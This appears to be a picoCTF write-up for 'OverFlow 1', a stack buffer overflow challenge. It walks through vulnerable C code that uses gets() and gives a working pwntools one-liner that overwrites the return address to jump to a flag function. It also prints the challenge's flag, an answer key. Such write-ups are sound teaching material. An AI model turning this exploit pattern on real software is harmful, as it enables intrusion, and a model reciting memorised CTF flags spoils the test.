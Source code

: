 # OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE)+FLAG_ADDRESS```

first let's get "flag" function address using gdb

![](overflow1.png)

we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+8)+p32(0x080485e6)" | ./vuln```

![](overflow2.png)


# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

